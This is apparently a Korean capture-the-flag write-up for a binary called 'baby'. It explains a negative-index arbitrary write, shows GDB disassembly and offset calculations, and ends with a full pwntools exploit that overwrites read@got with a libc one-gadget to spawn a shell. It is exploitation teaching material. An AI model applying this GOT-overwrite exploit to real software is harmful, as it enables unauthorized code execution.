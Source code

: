 read() 함수를 통해 3번의 입력을 받는데 index 변수의 타입이 "long long"이기 때문에 음수 저장이 가능하다. 따라서 2번째 입력값을 원하는 주소에 입력할 수 있다.  

2번째 read() 함수 수행 전 &index([rbp-0x10]) 와 asd(0x601080)를 더한 값을 2번째 인자로 전달하고 있다.  

1번째 값으로 0x4141414141414141(AAAAAAAA) 입력 시 0x601080을 더하여 0x4141414141a151c1 위치에 2번째 값을 쓸 수 있다. 

```
...
   0x00000000004006c7 <+81>:	mov    rax,QWORD PTR [rbp-0x10]
   0x00000000004006cb <+85>:	add    rax,0x601080
   0x00000000004006d1 <+91>:	mov    edx,0x8
   0x00000000004006d6 <+96>:	mov    rsi,rax
   0x00000000004006d9 <+99>:	mov    edi,0x0
   0x00000000004006de <+104>:	call   0x400540 <read@plt>
...
gdb-peda$ p $rax
$1 = 0x4141414141a151c1
```

read@got 영역에 One Gadget  주소를 저장하면 Shell을 획득할 수 있다.  
0x601020(read@got) - 0x601080(asdf) = 0xffffffa0

```
gdb-peda$ elfsymbol
Found 4 symbols
printf@plt = 0x400530
read@plt = 0x400540
__libc_start_main@plt = 0x400550
dlsym@plt = 0x400560
gdb-peda$ x/3i 0x400540
   0x400540 <read@plt>:	jmp    QWORD PTR [rip+0x200ada]        # 0x601020
   0x400546 <read@plt+6>:	push   0x1
   0x40054b <read@plt+11>:	jmp    0x400520
gdb-peda$ p 0x601020-0x601080
$2 = 0xffffffa0
```

## **Exploit Code**

```python
# Exploit Code
from pwn import *

p = process('./baby')
gdb.attach(p)
printf = int(p.recvline().split(' ')[3],16)

libBase = printf - 0x55800
oneGadget = libBase + 0x4526a

log.info("libBase: " + str(hex(libBase)))
log.info("oneGadget: " + str(hex(oneGadget)))

p.sendline(p64(0xffffffffffffffa0))
raw_input('1')
p.sendline(p64(oneGadget))
p.interactive()
```

